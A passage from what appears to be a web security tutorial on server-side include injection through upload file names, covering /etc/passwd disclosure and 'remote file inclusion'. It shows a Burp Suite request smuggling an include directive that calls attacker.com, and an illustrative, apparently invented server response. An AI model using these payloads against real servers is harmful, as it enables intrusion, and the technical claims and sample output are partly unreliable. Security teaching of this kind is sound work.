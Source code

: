 ```html
</body>
</html>
```

This output would expose sensitive **system information** from `/etc/passwd`, such as usernames, UIDs, and the shell used by each user. This is a critical **information disclosure** vulnerability.

***

#### **4. Exploiting Remote File Inclusion (RFI) with External Hosts**

If the server allows including remote files via the `include` directive, an attacker can leverage this for **Remote File Inclusion (RFI)**. By injecting an external URL, attackers can load a malicious script hosted on an external server.

**Burp Suite Request for RFI:**

Assume the application allows including images from URLs but doesn’t sanitize the input properly.

**Burp Suite Request with RFI Payload:**

```markup
POST /profile-image HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5lLiyqMk7wej39ti
Content-Length: 1234

------WebKitFormBoundary5lLiyqMk7wej39ti
Content-Disposition: form-data; name="image_filename"; filename="profile.jpg<!--#include virtual='http://attacker.com/malicious_script.php'-->"
Content-Type: image/jpeg

<binary data here>
------WebKitFormBoundary5lLiyqMk7wej39ti--
```

Here, the attacker injects a remote URL (`http://attacker.com/malicious_script.php`) that will be included when the server processes the `image_filename` parameter.

**Expected Response:**

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 567

<html>
<head><title>Profile - User</title></head>
<body>
  <h1>User Profile</h1>
  <div class="profile-image">
    <img src="/uploads/profile.jpg" alt="Profile Image">
  </div>
  <pre>
    [Malicious Script Executed]
    <script>document.write("This is a malicious payload!")</script>
  </pre>
</body>
</html>
```
